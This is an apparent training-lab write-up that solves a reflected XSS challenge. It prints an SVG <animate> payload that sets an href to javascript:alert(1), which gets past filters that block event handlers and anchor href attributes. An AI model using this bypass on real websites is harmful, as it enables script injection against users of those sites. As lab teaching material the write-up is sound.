


# Lab 8: Reflected XSS with event handlers and href attributes blocked

This lab contains a reflected XSS vulnerability with some whitelisted tags, but **all events and anchor `href` attributes are blocked**.

---

### 🎯 **Goal**

Perform a cross-site scripting attack that injects a vector which, when clicked, calls the `alert` function.

> Important:
> 
> 
> You need to label your vector with the word **"Click"** to induce the simulated lab user to click it. For example:
> 
> ```jsx
> <a href="">Click me</a>
> ```
> 

---

### 🛠️ Solution Strategy

We'll exploit SVG's ability to embed JavaScript using `<animate>` inside an `<svg>` element:

- `<animate>` allows dynamic behavior **without event handlers**.
- By using `attributeName="href"`, we can set an `href` dynamically to `javascript:alert(1)`.

✅ This **bypasses event attribute** and `href` restrictions because it's **not defined statically**.

---

### 🛠️ **Solution**

1️⃣ Visit the following URL, replacing `YOUR-LAB-ID` with your lab ID:

```html
<svg>
	<a><animate+attributeName=href+values=javascript:alert(1)+/>
		<text+x=20+y=20>
			Click me
		</text>
	</a>
```







> Reference : [https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/animate](https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/animate)
> 

---

### 🎥 **Community solutions**

▶️ [Watch video walkthrough](https://youtu.be/SGi_IkgyKew)